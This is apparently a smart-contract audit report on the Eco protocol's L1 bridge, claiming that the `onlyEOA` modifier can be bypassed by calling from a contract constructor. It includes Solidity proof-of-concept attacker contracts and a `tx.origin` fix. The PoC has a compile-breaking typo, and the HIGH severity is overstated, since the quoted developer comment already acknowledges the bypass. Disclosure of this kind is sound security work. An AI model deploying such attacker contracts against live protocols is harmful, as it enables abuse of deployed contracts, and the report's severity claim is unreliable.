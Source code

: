 aidenpearce369

false

# Bypassed onlyEOA access modifer using malicious contract

#### Name - AidenPearce369#8497

#### Severity - HIGH

## Summary
The access modifier `onlyEOA` used for validation check to execute `depositERC20()` can be bypassed.

## Vulnerability Detail

The vulnerability occurs when the access modifier tries to validate the value of `msg.sender.code.length == 0`. The protocol assumes the value of `msg.sender` will always be an `EOA Account`.  But an attacker can craft a malicious smart contract sending a request to validate this `onlyEOA` access modifier from a `constructor()`, so that the `msg.sender.code.length == 0`.

## PoC

Lets consider the contract of the protocol as `L1ECOBridge.sol` with its respective contract address `address _l1EcoBridgeAddr` where it is assumed to be deployed in the blockchain,

```js
pragma solidity 0.8.18;

contract HackModifier{

    // State variables to check the access modifier bypass
    bool public toggle = false;
    address public checkAddr;

    // Function vars
    address public from;
    address public to;
    uint256 public amount;

    // Access modifier to bypass
    modifier onlyEOA() {
        // Used to stop deposits from contracts (avoid accidentally lost tokens)
        // @note Checks for EOA address, which has msg.sender.code.length == 0
        // @note - What if an attacker calls this modifier from a constructor  of another contract
        require(msg.sender.code.length == 0, "L1ECOBridge: Account not EOA");
        _;
    }

    // Function gets triggered if Access Modifier is BYPASSED
    function changeToggle() public onlyEOA{
        toggle = !toggle;
        checkAddr = msg.sender;
    }

    // Function gets triggered if Access Modifier is BYPASSED
    // depositERC20 function in https://github.com/sherlock-audit/2023-05-ecoprotocol/blob/main/op-eco/contracts/bridge/L1ECOBridge.sol
    // Removed isL1EcoToken(_l1Token) isL2EcoToken(_l2Token) modifiers since _l1Token,_l2Token are public and can be bypassed easily
    function depositERC20(
        uint256 _amount
    ) external virtual onlyEOA{
        updateDataERC20Deposit(
            msg.sender,
            msg.sender,
            _amount
        );
    }

    function updateDataERC20Deposit(
        address _from,
        address _to,
        uint256 _amount
    ) internal{
        from = _from;
        to = address(this);
        amount = _amount;
    }
}
```

Now an attacker can craft a malicious smart contract to interact with the L1ECOBridge from `_l1EcoBridgeAddr`.

```js
pragma solidity 0.8.18;

import "./L1ECOBridge.sol";

contract First{

    address public _addrValue ;
    uint256 public _lenValue ;
    Second public second;
    address public deployedSecondContract;
    address public _secondAddrValue ;
    uint256 public _secondLenValue ;

    constructor(){
        _addrValue = msg.sender;
        _lenValue = msg.sender.code.length;
        second = new Second(address(this));
        deployedSecondContract = address(second);
        _secondAddrValue = second._addrValue();
        _secondLenValue = second._lenValue();
    }

}

contract Second{
    First first;
    address public _addrValue ;
    uint256 public _lenValue ;
    HackModifier hacker;
    // Value of L1ECOBridge smart contract stored in _l1EcoBridgeAddr
    address public _ecoContract = addresss(_l1EcoBridgeAddr) ;
    constructor(address _addr){
        _addrValue = msg.sender;
        _lenValue = msg.sender.code.length;
        // Calls changeToggle to check onlyEOA bypass
        hacker = HackModifier(_ecoContract);
        hacker.changeToggle();
        // Calls depositERC20 with bypassed onlyEOA
        hacker.depositERC20(99);
    }

}
```

The access modifier `isL1EcoToken(_l1Token)` and `isL2EcoToken(_l2Token)` can be easily bypassed since the values of `_l1Token` and `_l1Token` can be easily obtained from the slot of state variable of it's smart contract.

Since the `hacker = HackModifier(_ecoContract)` is being triggered by the `constructor()` which is being deployed from another smart contract, the value of `msg.sender` will not be the address of an `EOA Account`. The `msg.sender` will be the value of `deployedSecondContract` from the first contract used to invoke the second contract.

## Impact

As developer mentioned in his notes on the source code, this access modifier is mainly used to stop deposits from contracts. By bypassing this access modifier `onlyEOA`, an attacker can craft a malicious contract that deposits its tokens from its balance, instead of an `EOA Account`.

## Code Snippet

[https://github.com/sherlock-audit/2023-05-ecoprotocol/blob/main/op-eco/contracts/bridge/L1ECOBridge.sol#L61](https://github.com/sherlock-audit/2023-05-ecoprotocol/blob/main/op-eco/contracts/bridge/L1ECOBridge.sol#L61)

```js
     /**
     * @dev Modifier requiring sender to be EOA.  This check could be bypassed by a malicious
     * contract via initcode, but it takes care of the user error we want to avoid.
     */
    // @audit - High Impact - Bypass Access Modifier
    modifier onlyEOA() {
        // Used to stop deposits from contracts (avoid accidentally lost tokens)
        // @note - What if an attacker calls this modifier from a constructor 
        require(msg.sender.code.length == 0, "L1ECOBridge: Account not EOA");
        _;
    }
```

## Tool used

Manual Review

## Recommendation

- Always check for the origin of the transaction along with the sender of the transaction to verify the integrity of the callee
- For instance, it is also possible to verify the origin of the transaction with the `msg.sender`, since transactions can be only initiated by `EOA Accounts`.

```js
modifier onlyEOA() {
        require(msg.sender.code.length == 0 && tx.origin == msg.sender, "L1ECOBridge: Account not EOA");
        _;
    }
```

